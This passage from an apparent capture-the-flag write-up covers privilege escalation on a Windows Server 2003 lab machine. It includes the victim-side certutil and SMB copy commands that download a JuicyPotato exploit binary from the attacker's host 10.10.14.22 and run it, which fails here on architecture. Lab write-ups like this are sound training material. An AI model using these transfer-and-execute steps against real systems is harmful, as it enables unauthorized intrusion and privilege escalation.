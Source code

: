 After performing the first enumeration commands, I find that the compromised account has the **SeImpersonatePrivilege** privilege enabled, which most likely makes the system vulnerable to `JuicyPotato.exe`, a version of **RottenPotatoNG**. So I download the **[ohpe](https://github.com/ohpe/juicy-potato){:target="_blank"}** binary and transfer it to the victim machine but it doesn't work for the **Windows OS** version, I had forgotten to check before with `systemInfo` this **little detail**. In the **CLSID** list in **ohpe's Github project**, I can check that the version is not supported.

> **Victime Machine**:

```cmd
ipconfig
cd C:\DOCUME~1
whoami /priv
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled

systeminfo
# OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition        :( JuicyPotato maybe not work!
# System Type:               X86-based PC
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/JuicyPotato.exe ./JP.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -split http://10.10.14.22/JP.exe
start /b powershell certutil.exe -f -split http://10.10.14.22/JP.exe
```

> **Attacker Machine**:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.22\smbFolder\JP.exe .\JP.exe
.\JP.exe
# The image file C:\WINDOWS\Temp\privesc\JP.exe is valid, but is for a machine type other than the current machine.
systemInfo
```

<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/grandpa_writeup/Grandpa_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
